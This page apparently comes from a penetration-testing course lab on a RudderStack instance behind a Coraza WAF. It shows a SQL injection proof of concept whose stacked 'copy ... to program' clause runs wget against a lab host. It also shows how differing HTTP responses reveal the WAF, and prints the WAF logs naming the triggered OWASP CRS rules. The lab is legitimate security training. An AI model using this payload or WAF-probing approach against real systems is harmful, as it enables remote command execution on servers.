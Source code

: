 RudderStack - Debug	
12.3.3. Triggering the WAF
Let's try sending our SQL injection payload through the WAF. As a reminder, we're using the following JSON body as our proof of concept:

{ "source_id":"'; copy (select 'a') to program 'wget -q http://192.168.48.3:9000/it_worked' -- - ", "task_run_id":"1"}
Listing 17 - SQL injection payload

If we still have our request in Repeater, we can update the Target and Host values to use port 80. Once we've updated the request, we can Send it.

Figure 19: Repeater with 403 Forbidden response
Figure 19: Repeater with 403 Forbidden response
The application responded with HTTP 403 Forbidden with a Content-Length of 0. This response does not give us a lot to work with. Checking for different responses based on the values we send is one way we can attempt to identify if an application is behind a WAF. For example, if we send a single quote as the source_id, the application responds with an HTTP 500 Internal Server Error with the verbose error message.

Figure 20: Repeater with 500 Internal Server Error response
Figure 20: Repeater with 500 Internal Server Error response
However, if we include a single quote followed by a semicolon (';), we receive the empty 403 Forbidden response. This difference in response may be all that we have to identify that we're interacting with a WAF.

Since we do have full access to the testing environment, let's review the Caddy logs to determine which rule we triggered.

student@rudder:~$ docker logs -n 5 student_caddy_1
{"level":"debug","ts":1709242735.4946961,"logger":"http.handlers.reverse_proxy","msg":"selected upstream","dial":"backend:8080","total_upstreams":1}
{"level":"debug","ts":1709242735.4958072,"logger":"http.handlers.reverse_proxy","msg":"upstream roundtrip","upstream":"backend:8080","duration":0.001060348,"request":{"remote_ip":"192.168.48.2","remote_port":"61683","client_ip":"192.168.48.2","proto":"HTTP/1.1","method":"POST","host":"rudderstack:80","uri":"/v1/warehouse/pending-events?triggerUpload=true","headers":{"Content-Length":["42"],"Accept-Encoding":["gzip, deflate, br"],"X-Forwarded-For":["192.168.48.2"],"User-Agent":["Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36"],"Accept":["text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7"],"X-Forwarded-Proto":["http"],"Upgrade-Insecure-Requests":["1"],"Content-Type":["application/json"],"Accept-Language":["en-US,en;q=0.9"],"X-Forwarded-Host":["rudderstack:80"]}},"headers":{"Vary":["Origin"],"X-Content-Type-Options":["nosniff"],"Content-Length":["227"],"Content-Type":["text/plain; charset=utf-8"],"Date":["Thu, 29 Feb 2024 21:38:55 GMT"]},"status":500}
{"level":"error","ts":1709242946.2066061,"logger":"http.handlers.waf","msg":"[client \"192.168.48.2\"] Coraza: Warning. SQL Authentication bypass (split query) [file \"/ruleset/rules/REQUEST-942-APPLICATION-ATTACK-SQLI.conf\"] [line \"9227\"] [id \"942540\"] [rev \"\"] [msg \"SQL Authentication bypass (split query)\"] [data \"Matched Data: '; found within ARGS:json.source_id: ';\"] [severity \"critical\"] [ver \"OWASP_CRS/4.0.1-dev\"] [maturity \"0\"] [accuracy \"0\"] [tag \"application-multi\"] [tag \"language-multi\"] [tag \"platform-multi\"] [tag \"attack-sqli\"] [tag \"OWASP_CRS\"] [tag \"capec/1000/152/248/66\"] [tag \"PCI/6.5.2\"] [tag \"paranoia-level/1\"] [hostname \"\"] [uri \"/v1/warehouse/pending-events?triggerUpload=true\"] [unique_id \"DqHmPboMoGeARJPm\"]"}
{"level":"error","ts":1709242946.2070546,"logger":"http.handlers.waf","msg":"[client \"192.168.48.2\"] Coraza: Access denied (phase 2). Inbound Anomaly Score Exceeded (Total Score: 5) [file \"/ruleset/rules/REQUEST-949-BLOCKING-EVALUATION.conf\"] [line \"11422\"] [id \"949110\"] [rev \"\"] [msg \"Inbound Anomaly Score Exceeded (Total Score: 5)\"] [data \"\"] [severity \"emergency\"] [ver \"OWASP_CRS/4.0.1-dev\"] [maturity \"0\"] [accuracy \"0\"] [tag \"anomaly-evaluation\"] [hostname \"\"] [uri \"/v1/warehouse/pending-events?triggerUpload=true\"] [unique_id \"DqHmPboMoGeARJPm\"]"}